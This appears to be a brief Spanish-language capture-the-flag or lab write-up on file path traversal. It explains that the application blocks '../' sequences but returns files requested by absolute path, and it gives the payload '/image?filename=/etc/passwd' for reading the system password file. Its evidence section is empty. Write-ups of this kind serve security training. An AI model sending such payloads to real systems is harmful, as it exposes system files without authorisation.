

# Lab 02 - File Path Traversal

## Objetivo
Obtener el archivo `/etc/passwd` 

## Vulnerabilidad
La aplicación bloquea las secuencias `../`, pero si se le proporciona la ruta absoluta del archivo lo devuelve

## Explotación

```bash
/image?filename=/etc/passwd
```
## Evidencia
